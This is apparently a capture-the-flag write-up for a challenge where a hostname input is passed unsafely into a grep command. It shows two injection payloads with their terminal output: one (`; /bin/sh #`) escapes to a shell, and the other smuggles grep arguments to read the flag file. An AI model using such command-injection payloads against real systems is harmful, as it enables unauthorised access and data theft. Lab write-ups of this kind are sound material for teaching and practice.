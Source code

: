 Finally! One Shot! But something like 45minutes spend in failure è_é. Be smarter!

The final full path is : `/ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much/fun`

There is a lot of way to get the flag, we can escape and call a shell too (i didn't tried this because i was thinking that there was some protection... i was wrong):

Command used : `; /bin/sh #`

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): ; /bin/sh #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
whoami
ctf
cat /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much/fun/*
byuctf{expl0iting_th1s_r3al_w0rld_w4s_s000_ann0ying}
```

Or abuse of the grep command and use parameter, thats so smart! 

Command used : `-r "byuctf*" /ohno #`
Or : `-r "{" /ohno #`

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1 
Enter new hostname (30 chars max): -r "byuctf*" /ohno #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
/ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much/fun/bec88d76f73adcb8b5fae122baae0bc5:byuctf{expl0iting_th1s_r3al_w0rld_w4s_s000_ann0ying}
Reboot complete
```

And many other way...
